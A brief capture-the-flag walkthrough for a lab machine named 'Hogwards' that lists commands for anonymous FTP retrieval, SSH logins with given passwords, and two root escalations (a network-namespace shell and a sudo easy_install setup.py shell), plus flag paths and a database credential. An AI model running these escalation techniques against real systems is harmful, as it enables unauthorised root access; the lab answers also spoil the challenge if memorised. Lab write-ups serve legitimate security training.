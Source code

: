 # Hogwards
## Method 1
1. `ftp hogwards.thm -p 7259` and anonymous *The FTP port is random, so you have to make nmap scan*
2. `get .I_saved_it_harry.zip`
3. `unzip .I_saved_it_harry.zip` passwod is:`qwer1234`
4. `ssh -l neville -p 9075 hogwards.thm`
5. `ip netns add foo`
6. `ip netns exec foo /bin/sh -p`
## Method 2
1. `ssh draco@hogwards.thm` password: `slytherin`
2. `TF=$(mktemp -d)`
3. `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
4. `sudo easy_install $TF`


## Flags
1. /root/headmaster.txt
2. /home/hermoine/special_spell.txt
3. /home/harry/special_spell.txt
4./home/draco/achievements.txt
5. /var/www/mymainsite/conn.php
6. mysql db (root:neville_was_chosen), basement db, monsters table
7. /etc/left_corridor/seventh_floor/.entrance (thanks to mug3njutsu on discord for this)
